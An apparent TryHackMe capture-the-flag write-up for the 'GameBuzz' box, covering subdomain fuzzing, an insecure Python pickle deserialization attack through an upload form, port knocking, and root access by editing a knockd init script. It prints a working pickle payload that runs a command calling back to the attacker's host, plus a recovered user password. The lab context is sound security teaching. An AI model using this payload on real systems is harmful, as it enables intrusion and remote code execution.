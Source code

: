 <h3> GameBuzz TryHackMe </h3>

Difficulty = Hard

Nmap Scan:
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2b8867ef-56a0-43e5-860d-f2453459c873)

Going over to the web server shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/72c13526-255a-4bc4-ae0b-8d729902260d)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/358c80bb-9bcd-49ff-9d4d-d22e05cf18b7)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/57414644-72f7-45a4-8ba3-b3ba4eb2e751)

Noticing the email *admin@incognito.com* we can deduct that the domain name is *incognito.com*

I'll add that to my */etc/hosts* file

Now poking around this web app i saw the *Game Rating* function
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/35f31582-8204-4839-a88f-ee25889b5252)

When you click it and then click game 1 with a proxy on this is what I got
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/73392813-ef46-4ce4-98e4-add3c1cfbfc9)

```json
{"object":"/var/upload/games/object.pkl"}
```

We can see that it's loading the object pickled file 🤔

Let's keep this in mind!

Now for more enumeration since we have the domain lets fuzz for sub domains 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a6783ee6-458f-4c0c-a655-c34d945fe539)

I got *dev* so i'll update my */etc/hosts* file with the new subdomain *dev.incognito.com*

Going over to the newly founded subdomain shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/406ca395-c76f-41f1-b11a-b2948a14d85a)

Checking */robots.txt* shows */secret*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2b6d8c8c-0285-4aec-bd2b-13f7bc04f112)

But after navigating to */secret* gives 403 forbidden
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/add9bbf8-6807-4155-ae7d-659b2488e247)

So I fuzzed for files there and got */upload*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/c1966332-64c8-4382-8ed7-75c9343d5055)

Moving there shows an upload form 

Now this is good cause remember from the main domain we can call any pickled file and since we are opportuned to upload any file lets upload a pickle file

I made a script to make icmp callback to my host

```python
#!/usr/bin/python3
# Author: Hack.You
import os
import pickle

class Shell(object):
    def __reduce__(self):
        cmd = 'ping -c 5 10.2.42.156'
        return (os.system, (cmd,))

pickledData = pickle.dumps(Shell())
with open('payload.pkl', 'wb') as f:
    f.write(pickledData)

```

Running it creates the pickle file 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3d67b081-9fbf-44dd-92bf-e90fb55d9253)

Now let upload the serialized payload
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/edb33e1e-ad19-4e34-b60f-101383fcac10)

I already setup *tcpdump* listening for icmp connection 

```bash
sudo tcpdump -i tun0 icmp
```

Since the file is already uploaded we can call it via the fetch endpoint on the main domain
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9419975b-ed4c-4d53-9eb0-cec23cc454d6)

```json
{"object":"/var/upload/payload.pkl"}
```

Back on tcpdump we get a hit 😄
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8a0bdbe0-d147-4350-a9f5-de65e9ad368f)

Now lets get shell. Here's my payload [script](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/thm/GameBuzz/pickle.py)

After running it and uploading it then using the fetch endpoint to load the pickle data I got shell
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/7ee6d51c-1040-4c2d-be89-184992a40d11)

Let do some privilege escalation 

Running linpeas shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f9e7b38c-e18f-46e5-afd3-12d59976714e)

Viewing the file gives the password for user dev1 as *dc647eb65e6711e155375218212b3964*

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b23adc48-ccec-49a1-b591-44f805c2e430)

But we can't switch to the user from the box so we need to login to ssh

But no ssh port is open

From the hint we are to do port knocking for we to get access to the ssh service

Looking at the knock config file shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8f9969a0-aaa0-4b25-ad6e-de2de82580c6)

This means we're to knock the followng ports *[5020,6120,7340]* for ssh to be open

Luckily there's an open source tool on kali that can easily do this for us
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a42f9b32-9a61-4c67-9722-ee7a508a6f37)

Now that ssh is open let us login as dev1
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e766b550-f2ef-471e-b284-70fee8cfba5a)

Checking *sudo -l* shows we can run as *root* on */etc/init.d/knockd*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4cad41e1-c3db-484b-bdd2-ec0e5dd73d8e)

But we don't have write access over the file
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a4915ecf-851b-4452-ba1e-3b763f9afaa3)

So i ran linpeas again and got this
![acl](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/cef8acfe-ccf3-46e2-8582-bb41be08c134)

It shows this file has ACL perm set on it

And to confirm it we can check it
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fee6e2a0-0a09-42fb-9e5d-0cf821d92d16)

The *+* sign at the end of the perm signifies ACl 

With ACL set on we can change the permission on the file

So lets edit it to get a reverse shell
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4fa768fb-90a4-47b1-af59-8fefc4958d25)

Now lets restart the service
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8e541218-4b6a-4a7e-bdc7-b7cc82a9047d)

With this set we now need to stop the knock service and start it back then port knock the ports
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fcfc4db2-3b61-495b-9707-9da2d1fd1e69)

And we're done 👻
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/ed17bd46-1cda-46cf-801b-254300e3d2cb)


